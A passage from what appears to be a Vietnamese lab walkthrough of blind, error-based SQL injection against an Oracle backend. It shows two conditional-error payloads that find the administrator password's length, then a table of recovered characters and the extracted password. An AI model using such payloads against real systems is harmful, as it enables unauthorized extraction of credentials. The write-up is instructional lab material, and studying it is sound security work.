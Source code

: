  ![alt text](image-55.png)
Dễ thấy kí tự ‘l’ có lỗi còn các ký tự khác thì không vậy nên password bắt đầu bằng l
Tiếp theo, cần xem password có bao nhiêu ký tự, ta thử 2 payload:
' AND (SELECT CASE WHEN LENGTH(password) > 19 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a
' AND (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a
 ![alt text](image-56.png)
Payload đầu lỗi, thứ 2 không có lỗi vậy nên password có 20 ký tự
1	2	3	4	5	6	7	8	9	10	11	12	13	14	15	16	17	18	19	20
l	8	6	m	7	r	j	2	c	s	r	0	f	6	w	6	1	x	y	s
Mật khẩu là: l86m7rj2csr0f6w61xys
